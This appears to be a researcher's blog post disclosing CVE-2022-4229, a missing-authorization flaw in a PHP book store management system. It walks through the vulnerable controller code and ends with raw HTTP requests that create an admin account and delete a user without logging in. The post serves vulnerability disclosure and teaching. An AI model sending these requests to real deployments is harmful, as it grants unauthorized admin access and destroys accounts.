

# SourceCodester Book Store Management System 1.0 /bsms_ci/index.php Access Control - CVE-2022-4229

<aside class="mdx-author" markdown>
![@squidfunk][@squidfunk avatar]

<span>**msplme** · @Huy3nMy</span>
<span>
:octicons-calendar-24: November 30, 2022 ·
:octicons-clock-24: 5 min read ·
</span>

</aside>

[built-in search plugin]: ../../setup/setting-up-site-search.md#built-in-search-plugin
[@squidfunk avatar]: ../../assets/author/casicon.png
[insiders-4.14.0]: ../../insiders/changelog.md#4.14.0

---

## Introduction

In the realm of cybersecurity, discovering a vulnerability and obtaining a CVE (Common Vulnerabilities and Exposures) entry is a significant achievement. It marks a milestone in an individual's journey as a security researcher, demonstrating their expertise and contribution to the field. In this blog post, I am excited to share my personal journey of uncovering one of the initial CVEs identified by our team. We will delve into the details of CVE-2022-4229, a specific vulnerability impacting the SourceCodester Book Store Management System 1.0, and discuss the implications of its access control issue.

## Understanding CVE-2022-4229

[CVE-2022-4229](https://www.cve.org/CVERecord?id=CVE-2022-4229) is a vulnerability classified as critical was found in SourceCodester Book Store Management System 1.0. This vulnerability affects an unknown part of the file /bsms_ci/index.php. The manipulation with an unknown input leads to a access control vulnerability. The software does not restrict or incorrectly restricts access to a resource from an unauthorized actor. As an impact it is known to affect confidentiality, integrity, and availability.

**Affected product(s)/code base**: https://www.sourcecodester.com/sites/default/files/download/oretnom23/bsms_ci.zip

**Affected component(s):**

- /bsms_ci/index.php/category/\*
- /bsms_ci/index.php/book/\*
- /bsms_ci/index.php/transaction/\*
- /bsms_ci/index.php/history/\*
- /bsms_ci/index.php/user/\*

## Technical Details

### System Installation/Setup

1. Open your XAMPP Control Panel and start Apache and MySQL.
2. Extract the [downloaded source code](https://www.sourcecodester.com/sites/default/files/download/oretnom23/bsms_ci.zip) zip file.
3. Copy the extracted source code folder and paste it into the XAMPP's "htdocs" directory.
4. Browse the PHPMyAdmin in a browser. i.e. http://localhost/phpmyadmin
5. Create a new database named ci_bsms_db.
6. Import the provided SQL file. The file is known as ci_bsms_db.sql located inside the database folder.
7. Browse the Book Store Management System in a browser. i.e. http://localhost/bsms_ci/

### Source Code Analyst

A PHP function called `add()` responsible for adding a user in the context of a Book Store Management System. Here's a breakdown of the code:

```php
/* Location: ./application/controllers/User.php */
public function add()
{
    if ($this->input->post('save')) {
		if ($this->user->save_user()) {
            $this->session->set_flashdata('message', 'Used Added Successfully');
            redirect('user','refresh');
        } else {
            $this->session->set_flashdata('message', 'Failed to Add');
            redirect('user','refresh');
        }
    }
}

```

When this function is called, it first checks if the 'save' parameter is present in the `POST` request. If it exists, it calls the `save_user()` function of the `$this->user` object.
If the `save_user()` function returns true, indicating that the user was successfully saved in the system, the code sets a flash message using `set_flashdata()` with the message "User Added Successfully". It then redirects the user to the 'user' page using the `redirect()` function.
On the other hand, if the `save_user()` function returns false, indicating a failure in saving the user, the code sets a flash message with the message "Failed to Add" and redirects the user to the 'user' page.

The `save_user()` function is called to save the user's information into the database. Here is the code for the function:

```php
/* Location: ./application/models/M_user.php */
public function save_user()
{
		$object=array(
				'user_code'=>$this->input->post('user_code'),
				'fullname'=>$this->input->post('fullname'),
				'username'=>$this->input->post('username'),
				'password'=>md5($this->input->post('password')),
				'level'=>$this->input->post('level')
			);
		return $this->db->insert('user', $object);
}
```

In this code, the function creates an array called `$object` that contains the user's information. It retrieves the data from the `POST` request parameters such as `user_code`, `fullname`, `username`, `password`, and `level`. The `md5()` function is used to hash the password before storing it in the database.
The function then calls the `insert()` method of the database object (`$this->db`) to insert the `$object` array into the user table.
The function returns the result of the `insert()` method, which indicates whether the user was successfully saved in the database or not.

&#10233; After analyzing the code, it appears that there is a missing check for user authorization or privileges in the `add()` function. This omission can potentially lead to a security vulnerability where unauthorized users can access and add users to the system.

### Exploitation Execution

#### Add new account without cookie

Request:

```http
POST /bsms_ci/index.php/user/add HTTP/1.1
Host: localhost
Content-Length: 64
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bsms_ci/index.php/user
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

fullname=john&username=john&password=12345&level=admin&save=Save
```


#### Delete account without cookie

```http
GET /bsms_ci/index.php/user/hapus/2 HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bsms_ci/index.php/user
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```


